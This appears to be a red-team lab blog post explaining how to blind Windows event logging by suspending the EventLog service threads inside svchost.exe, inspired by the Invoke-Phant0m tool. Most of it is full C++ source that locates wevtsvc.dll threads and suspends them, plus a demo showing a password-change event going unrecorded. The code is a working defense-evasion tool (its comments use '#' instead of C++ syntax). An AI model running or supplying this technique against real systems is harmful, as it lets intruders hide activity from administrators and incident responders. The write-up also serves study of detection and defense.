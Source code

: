 ```yaml
---
layout: post
title: "disabling windows event logs by suspending eventlog service threads"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /disabling-windows-event-logs-by-suspending-eventlog-service-threads/
---
```


---
layout: post
title: "disabling windows event logs by suspending eventlog service threads"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /disabling-windows-event-logs-by-suspending-eventlog-service-threads/
---

# Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service (Windows Eventlog in this case) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](<../../.gitbook/assets/image (618).png>)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](<../../.gitbook/assets/image (620).png>)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](<../../.gitbook/assets/image (621).png>)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](<../../.gitbook/assets/image (622).png>)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](<../../.gitbook/assets/suspended-threads-no-events (1).gif>)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

{% hint style="warning" %}
Resuming threads will write out the events to the events log as if the threads had not been suspended in the first place.
{% endhint %}

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe (hosting EventLog) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process (from step 3)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
	IN HANDLE          ThreadHandle,
	IN THREADINFOCLASS ThreadInformationClass,
	OUT PVOID          ThreadInformation,
	IN ULONG           ThreadInformationLength,
	OUT PULONG         ReturnLength
	);

int main()
{
	HANDLE serviceProcessHandle;
	HANDLE snapshotHandle;
	HANDLE threadHandle;

	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	WCHAR remoteModuleName[128] = {};
	HMODULE serviceModule = NULL;
	MODULEINFO serviceModuleInfo = {};
	DWORD_PTR threadStartAddress = 0;
	DWORD bytesNeeded = 0;

	myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

	THREADENTRY32 threadEntry;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
	SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

	SERVICE_STATUS_PROCESS serviceStatusProcess = {};

	# Get PID of svchost.exe that hosts EventLog service
	QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
	DWORD servicePID = serviceStatusProcess.dwProcessId;

	# Open handle to the svchost.exe
	serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
	snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	# Get a list of modules loaded by svchost.exe
	EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		serviceModule = modules[i];

		# Get loaded module's name
		GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

		if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
		{
			printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
			GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
		}
	}

	# Enumerate threads
	Thread32First(snapshotHandle, &threadEntry);
	while (Thread32Next(snapshotHandle, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == servicePID)
		{
			threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
			NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
			
			# Check if thread's start address is inside wevtsvc.dll memory range
			if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
			{
				printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

				# Suspend EventLog service thread
				SuspendThread(threadHandle);
				Sleep(2000);
			}
		}
	}

	return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe (PID 2196)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](<../../.gitbook/assets/demo-suspending-eventlog-threads (1).gif>)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" %}
@spotheplanet
